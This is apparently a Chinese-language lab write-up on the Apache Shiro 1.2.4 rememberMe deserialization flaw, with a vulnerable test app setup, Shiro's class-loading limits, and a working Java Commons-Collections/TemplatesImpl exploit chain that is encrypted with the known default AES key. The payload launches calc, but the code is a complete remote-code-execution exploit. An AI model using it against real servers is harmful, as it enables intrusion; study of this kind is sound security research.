



# 0x01 Env Build

为了让浏览器或服务器重启后用户不丢失登录状态，Shiro支持将持久化信息序列化并加密后保存在Cookie的rememberMe字段中，下次读取时进行解密再反序列化。

在**Shiro 1.2.5版本之前**内置了一个默认且固定的加密Key，导致攻击者可以伪造任意的rememberMe Cookie，进而触发反序列化漏洞。

```xml
<dependency>
    <groupId>org.apache.shiro</groupId>
    <artifactId>shiro-core</artifactId>
    <version>1.2.4</version>
</dependency>

<dependency>
    <groupId>org.apache.shiro</groupId>
    <artifactId>shiro-web</artifactId>
    <version>1.2.4</version>
</dependency>

<dependency>
    <groupId>javax.servlet</groupId>
    <artifactId>javax.servlet-api</artifactId>
    <version>3.1.0</version>
    <scope>provided</scope>
</dependency>

<dependency>
    <groupId>javax.servlet.jsp</groupId>
    <artifactId>jsp-api</artifactId>
    <version>2.2</version>
    <scope>provided</scope>
</dependency>

<!-- https://mvnrepository.com/artifact/commons-collections/commons-collections -->
<dependency>
    <groupId>commons-collections</groupId>
    <artifactId>commons-collections</artifactId>
    <version>3.2.1</version>
</dependency>

<!-- https://mvnrepository.com/artifact/commons-logging/commons-logging -->
<dependency>
    <groupId>commons-logging</groupId>
    <artifactId>commons-logging</artifactId>
    <version>1.2</version>
</dependency>

<dependency>
    <groupId>org.slf4j</groupId>
    <artifactId>slf4j-api</artifactId>
    <version>1.7.30</version>
</dependency>
<dependency>
    <groupId>org.slf4j</groupId>
    <artifactId>slf4j-simple</artifactId>
    <version>1.7.30</version>
</dependency>
```

index.html

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Index</title>
</head>
<body>

<h1>Congratulations</h1>
<p>You have successfully logged in</p>

</body>
</html>
```

login.html

```html
<!doctype html>
<html>
<head>
    <meta charset="utf-8">
    <title>Login Page</title>
</head>
<body>
<form method="post">
    <h1>Please sign in</h1>
    <label>Username</label>
    <input type="text" placeholder="Username" name="username" required>
    </br>
    <label>Password</label>
    <input type="password" placeholder="Password" name="password" required>
    <div>
        <label>
            <input type="checkbox" name="rememberMe"> Remember me
        </label>
    </div>
    <button type="submit" name="submit" value="Login">Sign in</button>
</form>
</body>
</html>
```

shiro.ini

```
[main]
shiro.loginUrl = /login.html

[users]
# format: username = password, role1, role2, ..., roleN
root = secret,admin
guest = guest,guest

[roles]
# format: roleName = permission1, permission2, ..., permissionN
admin = *

[urls]
/login.html = authc
/logout = logout
/** = user
```

web.xml

```xml
<web-app xmlns="http://java.sun.com/xml/ns/javaee" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://java.sun.com/xml/ns/javaee http://java.sun.com/xml/ns/javaee/web-app_2_5.xsd"
         version="2.5">

  <listener>
    <listener-class>org.apache.shiro.web.env.EnvironmentLoaderListener</listener-class>
  </listener>

  <filter>
    <filter-name>ShiroFilter</filter-name>
    <filter-class>org.apache.shiro.web.servlet.ShiroFilter</filter-class>
  </filter>

  <filter-mapping>
    <filter-name>ShiroFilter</filter-name>
    <url-pattern>/*</url-pattern>
  </filter-mapping>

  <welcome-file-list>
    <welcome-file>index.html</welcome-file>
  </welcome-file-list>
</web-app>
```

mvn package 将项目打包成war包，放在Tomcat的webapps目录下。然后访问
http://localhost:8080/CC-SHIRO/



输入正确的账号密码，root/secret，成功登录

若登录时勾选了Remember Me，返回包Set-Cookie含有一个rememberMe字段



# 0x02 Way To Attack

1. 使用CC6利用链生成一个序列化Payload
2. 使用Shiro默认Key进行加密
3. 将密文作为rememberMe的Cookie发送给服务端

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;
import org.apache.shiro.crypto.AesCipherService;
import org.apache.shiro.util.ByteSource;

import java.io.*;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

public class GenePayLoad {
    public static byte[] CC6_PayLoad(String args) throws Exception {
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer(
                        "getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer(
                        "invoke", new Class[]{Object.class, Object[].class}, new Object[]{Runtime.class, null}),
                new InvokerTransformer(
                        "exec", new Class[]{String.class}, new Object[]{"calc"})
        };

        // 假的payload
        Transformer[] fakeTransformers = new Transformer[] {new
                ConstantTransformer(1)};
        Transformer transformerChain = new ChainedTransformer(fakeTransformers);
        Map innerMap = new HashMap();
        Map outerMap = LazyMap.decorate(innerMap, transformerChain);

        TiedMapEntry tiedMapEntry = new TiedMapEntry(outerMap, "ikey");
        Map expMap = new HashMap();
        // put的时候也会执行hashCode，为了防止本地调试触发payload，这里放入假的payload
        expMap.put(tiedMapEntry, "xxx");

        outerMap.remove("ikey");

        // 将真正的transformers数组设置进来
        Field f = ChainedTransformer.class.getDeclaredField("iTransformers");
        f.setAccessible(true);
        f.set(transformerChain, transformers);

        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(expMap);
        oos.close();

        return baos.toByteArray();
    }

    public static void main(String[] args) throws Exception {
        byte[] payloads = CC6_PayLoad("calc.exe");
        AesCipherService aes = new AesCipherService();
        byte[] key =
                java.util.Base64.getDecoder().decode("kPH+bIxk5D2deZiIxcaaaA==");
        ByteSource ciphertext = aes.encrypt(payloads, key);
        System.out.printf(ciphertext.toString());

    }
}
```

但是却报错了



------

找到异常信息的最后一个，`org.apache.shiro.io.ClassResolvingObjectInputStream`

```java
public class ClassResolvingObjectInputStream extends ObjectInputStream {
    protected Class<?> resolveClass(ObjectStreamClass osc) throws IOException, ClassNotFoundException {
        try {
            return ClassUtils.forName(osc.getName());
        } catch (UnknownClassException var3) {
            throw new ClassNotFoundException("Unable to load ObjectStreamClass [" + osc + "]: ", var3);
        }
    }
}
```

这个类是`ObjectInputStream`的子类，重写了`resolveClass`方法
`resolveClass`是反序列化中用来查找类的方法
对比父类`ObjectInputStream`的`resolveClass`

```java
protected Class<?> resolveClass(ObjectStreamClass desc)
    throws IOException, ClassNotFoundException
{
    String name = desc.getName();
    try {
        return Class.forName(name, false, latestUserDefinedLoader());
    } catch (ClassNotFoundException ex) {
        Class<?> cl = primClasses.get(name);
        if (cl != null) {
            return cl;
        } else {
            throw ex;
        }
    }
}
```

都调用了`forName`来寻找类，但子类用的是` org.apache.shiro.util.ClassUtils#forName`
父类用的是Java原生的` Class.forName`

`[Lorg.apache.commons.collections.Transformer;`即`org.apache.commons.collections.Transformer`
由于涉及到Tomcat对类加载的处理逻辑，这里不深入探究
结论是这样的：

> 如果反序列化流中包含非Java自身的数组，则会出现无法加载类的错误

由于CC6用到了Transformer数组，不是Java自身的数组，导致这条链无法利用

# 0x03 CommonsCollectionsShiro

接下来就要利用到`TemplatesImpl`来动态加载恶意字节码了

```java
TemplatesImpl obj = new TemplatesImpl();
setFieldValue(obj, "_bytecodes", new byte[][] {"evilbytescode"});
setFieldValue(obj, "_name", "HelloTemplatesImpl");
setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());
obj.newTransformer();
```

CC6中有一个类`TiedMapEntry`，构造器接收Map和Object key
`getValue`方法调用了map的get方法，传入key

```java
public TiedMapEntry(Map map, Object key) {
    super();
    this.map = map;
    this.key = key;
}
public Object getValue() {
    return map.get(key);
}
```

还记得CC1中的LazyMap，懒加载方式，在调用其get方法时会触发transform

```java
public Object get(Object key) {
    // create value for key if key is not currently in the map
    if (map.containsKey(key) == false) {
        Object value = factory.transform(key);
        map.put(key, value);
        return value;
    }
        return map.get(key);
}
```

可以看到key是会被传入`transform`方法的，那我们就根本不需要Transformer数组的第一个ConstantTransformer来传递对象，这边key可以直接传入，我们可以直接利用InvokeTransformer

```java
// Evil.java
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

public class Evil extends AbstractTranslet {
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {}

    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {}

    public Evil() throws Exception {
        super();
        System.out.println("Hello TemplatesImpl");
        Runtime.getRuntime().exec("calc");
    }
}
```

```java
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;
import org.apache.shiro.crypto.AesCipherService;
import org.apache.shiro.util.ByteSource;

import java.io.*;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.HashMap;
import java.util.Map;

public class GenePayLoad {
    public static void setFieldValue(Object obj, String fieldName, Object newValue) throws Exception {
        Class clazz = obj.getClass();
        Field field = clazz.getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, newValue);
    }
    public static byte[] CC11_PayLoad(byte[] clazzBytes) throws Exception {
        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, "_bytecodes", new byte[][]{clazzBytes});
        setFieldValue(obj, "_name", "HelloTemplatesImpl");
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());

        // 先设置成人畜无害的getClass方法,避免本地调试触发payload
        Transformer transformer = new InvokerTransformer("getClass", null, null);

        Map innerMap = new HashMap();
        Map outerMap = LazyMap.decorate(innerMap, transformer);

        TiedMapEntry tiedMapEntry = new TiedMapEntry(outerMap, obj);

        Map expMap = new HashMap();
        expMap.put(tiedMapEntry, "xxx");

        outerMap.clear();

        setFieldValue(transformer, "iMethodName", "newTransformer");

        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(expMap);
        oos.close();

        return baos.toByteArray();
    }

    public static void main(String[] args) throws Exception {
        byte[] codes = ClassPool.getDefault().get(Evil.class.getName()).toBytecode();
        AesCipherService aes = new AesCipherService();
        byte[] key =
                java.util.Base64.getDecoder().decode("kPH+bIxk5D2deZiIxcaaaA==");
        ByteSource ciphertext = aes.encrypt(CC11_PayLoad(codes), key);
        System.out.printf(ciphertext.toString());
    }
}
```

> HashMap.readObject => HashMap.hash => key.hashCode
> TiedMapEntry.hashCode => TiedMapEntry.getValue => map.get(key)
> => LazyMap.get(TemplatesImpl) => InvokerTransformer.transform(TemplatesImpl)
> => newTransformer()